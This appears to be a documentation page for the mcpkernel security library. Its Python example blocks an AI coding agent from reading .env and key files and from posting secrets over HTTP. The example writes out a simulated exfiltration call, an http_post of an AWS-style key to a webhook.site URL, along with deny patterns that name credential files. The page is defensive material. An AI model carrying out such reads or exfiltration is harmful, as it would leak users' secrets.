

repository: piyushptiwari1/mcpkernel · page: examples/end-to-end/index.html · generator: mkdocs

# End-to-End Examples

Complete working examples that combine multiple MCPKernel features in realistic scenarios.

---

## Scenario 1: Secure AI Coding Assistant

**Problem:** Your coding assistant (Copilot, Cursor) can read `.env` files and leak secrets via HTTP calls.

**Solution:** Policy + taint tracking stops the exfiltration chain.

```python
import asyncio
from mcpkernel.policy.engine import PolicyEngine, PolicyRule, PolicyAction
from mcpkernel.taint.tracker import TaintTracker, TaintLabel

# Step 1: Set up policy
engine = PolicyEngine(default_action=PolicyAction.ALLOW)

engine.add_rule(PolicyRule(
    id="CODING-001",
    name="Block secret file reads",
    action=PolicyAction.DENY,
    priority=10,
    tool_patterns=["read_file"],
    argument_patterns={"path": r".*\.(env|pem|key|credentials)$"},
))

engine.add_rule(PolicyRule(
    id="CODING-002",
    name="Block tainted data in HTTP calls",
    action=PolicyAction.DENY,
    priority=10,
    tool_patterns=["http_post", "http_get", "fetch"],
    taint_labels=["secret", "pii"],
))

# Step 2: Agent tries to read .env
decision = engine.evaluate("read_file", {"path": "/home/user/.env"})
print(f"Read .env: {decision.action} — {decision.reasons[0]}")
# Output: Read .env: deny — Matched rule CODING-001: Block secret file reads

# Step 3: Agent reads a safe file that happens to contain a key
decision = engine.evaluate("read_file", {"path": "config.yaml"})
print(f"Read config.yaml: {decision.action}")
# Output: Read config.yaml: allow

# Step 4: Taint scan detects a secret in the result
tracker = TaintTracker()
tracker.mark("AKIA1234567890ABCDEF", TaintLabel.SECRET, source_id="config-read")

# Step 5: Agent tries to send the data externally
decision = engine.evaluate(
    "http_post",
    {"url": "https://webhook.site/abc", "body": "key=AKIA1234567890ABCDEF"},
    taint_labels={"secret"},
)
print(f"HTTP POST with secret: {decision.action} — {decision.reasons[0]}")
# Output: HTTP POST with secret: deny — Matched rule CODING-002: Block tainted data in HTTP calls
```

---
